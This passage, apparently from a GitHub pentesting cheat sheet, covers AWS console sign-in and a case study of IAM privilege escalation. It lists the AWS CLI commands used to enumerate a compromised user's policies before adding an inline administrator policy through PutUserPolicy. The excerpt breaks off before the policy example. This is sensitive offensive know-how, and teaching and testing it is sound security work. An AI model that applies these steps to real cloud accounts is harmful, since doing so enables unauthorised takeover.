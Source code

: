 If you have the password of the root account instead of key, log in

```
https://signin.aws.amazon.com/console
```

Or use the IAM in case the account is not the root

```
https://account-id-here.signin.aws.amazon.com/console
```

*The account id can be cathered using the sts get caller command.*

### Privilege Escalation 
* Privilege escalation on AWS is based on misconfigurations, if we have more permissions than necessary, its possible to obtain higher privileges.

#### Study Case
* A user was compromised with the *List Policy* and *Put User Policy* permissions, an attacker could leverage this *Put User* privilege to add an inline administrator to itself, making it administrator of the instance.

##### Exploitation
1. Getting the IAM user

```
aws sts get-caller-identity
```

2. Listing policies attached to an user

```
aws iam list-attached-user-policies --user-name example_name -- profile example_profile
```

3. Retrieving informations about an specific policy

```
aws iam get-policy --policy-arn policy_arn
```

If there are more than one version of the policy, we can also list them

```
aws iam list-policy-versions --policy-arn policy_arn
```

Now we can finally retrieve the contents of the policy

```
aws iam get-policy-version --policy-arn example_arn --version-id id_example
```

*It's important to use the command above to chech the information about the default policy*

4. Escalation

If we have the PutUserPolicy is enabled, we can add an inline administrator policy to our user. 

Administrator policy example
